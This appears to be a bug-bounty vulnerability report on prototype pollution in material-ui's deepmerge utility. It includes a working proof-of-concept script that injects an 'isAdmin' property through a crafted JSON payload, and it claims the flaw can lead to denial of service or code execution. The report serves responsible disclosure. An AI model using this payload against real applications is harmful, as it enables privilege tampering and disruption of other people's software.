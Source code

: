 ## ✍️ Description
material-ui package is vulnerable to prototype pollution issue 
file can be found in  https://github.com/mui-org/material-ui/blob/next/packages/material-ui-utils/src/deepmerge.ts
## 🕵️‍♂️ Proof of Concept 
1. Creating poc file namely poc.js
var utils = require('@material-ui/utils');
var src = {};
let object = utils.deepmerge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'), {
    clone: false,
});
console.log(object.prototype.isAdmin);
2. Execute command npm install @material-ui/utils
3. Execute command node poc.js
[POC] https://drive.google.com/file/d/1twz_btDed0aeQVEO8BBAVs4Vg8kWjcxV/view?usp=sharing
## 💥 Impact
Prototype pollution which could lead to DOS and RCE
## ✅ Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_


